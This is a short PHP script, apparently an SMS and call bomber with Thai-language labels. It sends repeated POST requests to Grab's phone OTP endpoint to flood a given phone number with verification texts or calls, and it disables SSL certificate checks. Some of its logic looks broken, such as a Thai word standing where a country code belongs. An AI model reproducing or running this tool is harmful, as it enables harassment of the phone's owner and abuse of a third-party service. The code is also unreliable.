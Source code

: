 <?php
$argv[1] = substr($argv[1], 1);
$argv[1] = "66".$argv[1];

if (!isset($argv[1]) || (isset($argv[2]) && !in_array(strtoupper($argv[2]), ["ข้อความ", "โทร", "ทั้งหมด"]))) {
	echo "php run= <0926237952> <ข้อความ|โทร|ทั้งหมด>";
	exit;
} elseif (!isset($argv[2])) {
	$argv[2] = "ข้อความ";
}
$countries = ["ไทย"];
shuffle($countries);
$i = 0;
foreach ($countries as $countryCode) {
		$success = false;
		while (!$success) {
			foreach (["ข้อความ", "โทร"] as $method) {
				if (strtoupper($argv[2]) === "ALL" || strtoupper($argv[2]) === $method) {
					$result = @file_get_contents("https://api.grab.com/grabid/v1/phone/otp", false, stream_context_create([
						"http" => [
							"method" => "POST",
							"header" => "Content-type: application/x-www-form-urlencoded",
							"content" => "method=".$method."&countryCode=".$countryCode."&phoneNumber=".$argv[1]."&templateID=&numDigits=4"
						],
						"ssl" => [
							"verify_peer" => false,
							"verify_peer_name" => false
						]
					]));
					if ($result) {
						echo "[WHITE] หมายเลข: ".$argv[1]." ประเทศ: ".$countryCode." โหมดที่ใช้ยิง: ".$method."\n";
						$success = true;
					}
				}
			}
		}
	}

?>
